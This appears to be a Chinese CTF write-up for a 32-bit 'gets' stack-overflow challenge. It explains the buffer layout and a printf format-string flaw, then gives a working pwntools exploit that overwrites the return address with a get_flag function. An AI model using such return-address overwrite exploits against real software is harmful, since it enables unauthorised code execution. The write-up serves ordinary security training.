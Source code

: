 ```yaml
---
title: gets
date: '2025-6-14 22:00'
categories:
  - PWN
  - 栈溢出（Stack Overflow）
tags:
---
```


![](/images/{4CFEA279-2137-4C60-9C95-DDC38ED31AC1}1.png)
32位仅部分开启RELRO保护
![](/images/{F054FEF7-B882-4776-BCDB-686A78907E92}1.png)
![](/images/{5134CF56-EB95-448F-9D0C-96C479650816}.png)
![](/images/Pastedimage20250605152104.png)
栈布局：
````plaintext
[ s[36] ] [ ebp ] [ 返回地址 ]
````
声明了一个长度为 36 字节的字符数组 s，调用 gets 函数，并将 s 数组作为参数传递给它，然后将 gets 函数的返回值作为 ctfshow 函数的返回值。

这里是 28h，也就是 0x28，对于 32 位程序，我们 payload 还需要加 4 。
（根据程序是 32 位还是 64 位，对应加上 4 或 8 个字节的 ebp（栈底））
![](/images/Pastedimage20250605144435.png)
漏洞在于 `printf(s)` 直接使用文件内容作为格式字符串，这会导致：
1. 如果文件内容包含格式化字符（如 `%x`, `%p`, `%s`），会泄露栈内存
2. 可能造成内存崩溃（如使用 `%n` 写入内存）
右键Text view
![](/images/Pastedimage20250605150355.png)
知道get_flag函数的地址在0x08048586
```python
from pwn import * 
context(arch='i386',os='linux',log_level='debug')

p = process('./pwn2')  #本地连接
#p=remote('10.190.131.17',51286) #远程连接

elf = ELF('./pwn2') 
# get_flag=elf.sym['get_flag'] #查找get_flag函数的地址
get_flag_addr = 0x08048586 #get_flag 函数地址 

 #构造栈溢出 payload 
payload = cyclic(0x28+4) + p32(0x8048586) # 覆盖返回地址为 get_flag，32位程序用 p32

p.sendline(payload) #发送 payload
p.interactive() #交互获取 flag 输出 
```
![](/images/{6BDB377B-73EA-4D11-9676-CA8F8310F6CE}.png)


